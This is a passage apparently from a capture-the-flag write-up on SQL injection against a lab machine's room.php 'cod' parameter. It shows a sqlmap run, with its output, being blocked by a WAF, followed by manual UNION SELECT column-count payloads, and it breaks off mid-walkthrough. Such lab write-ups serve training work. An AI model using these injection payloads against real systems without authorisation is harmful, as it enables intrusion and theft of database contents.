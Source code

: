 #### sqlmap

The easiest way to test SQLI is to through it over to `sqlmap`. Here, it
crashes out:



    root@kali# sqlmap -u http://10.10.10.143/room.php?cod=1
            ___
           __H__
     ___ ___[']_____ ___ ___  {1.3.4#stable}
    |_ -| . [']     | .'| . |
    |___|_  ["]_|_|_|__,|  _|
          |_|V...       |_|   http://sqlmap.org

    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

    [*] starting @ 02:02:36 /2019-06-28/

    [02:02:36] [INFO] testing connection to the target URL
    [02:02:36] [INFO] checking if the target is protected by some kind of WAF/IPS
    [02:02:36] [WARNING] turning off pre-connect mechanism because of connection reset(s)
    [02:02:36] [CRITICAL] heuristics detected that the target is protected by some kind of WAF/IPS
    do you want sqlmap to try to detect backend WAF/IPS? [y/N] y
    [02:02:40] [WARNING] dropping timeout to 10 seconds (i.e. '--timeout=10')
    [02:02:40] [INFO] using WAF scripts to detect backend WAF/IPS protection
    [02:02:40] [WARNING] there is a possibility that the target (or WAF/IPS) is resetting 'suspicious' requests
    [02:02:40] [INFO] heuristics detected web page charset 'ascii'
    [02:02:40] [WARNING] WAF/IPS product hasn't been identified
    [02:02:40] [INFO] testing if the target URL content is stable
    [02:02:41] [WARNING] target URL content is not stable (i.e. content differs). sqlmap will base the page comparison on a sequence matcher. If no dynamic nor injectable parameters are detected, or in case of junk results, refer to user's manual paragraph 'Page comparison'
    how do you want to proceed? [(C)ontinue/(s)tring/(r)egex/(q)uit] c
    [02:02:45] [INFO] searching for dynamic content
    [02:02:45] [CRITICAL] page not found (404)
    [02:02:45] [WARNING] HTTP error codes detected during run:
    404 (Not Found) - 8 times

    [*] ending @ 02:02:45 /2019-06-28/



Not only that, but the site now returns the same message I saw earlier
on port 64999 about being blocked for 90 seconds.

### Path 1: PHPMyAdmin

#### Manual SQLi

I can work through this Injection manually. I'll start by checking for a
UNION injection. I'll set `cod=100` (something that returns nothing),
and then add the union. I'll start with
`http://10.10.10.143/room.php?cod=100 UNION SELECT 1;-- -`. When that
return nothing, I'll change the `SELECT` to `SELECT 1,2`. Then `1,2,3`.
When I get to
`http://10.10.10.143/room.php?cod=100 UNION SELECT 1,2,3,4,5,6,7;-- -`,
parts of the page populate again:
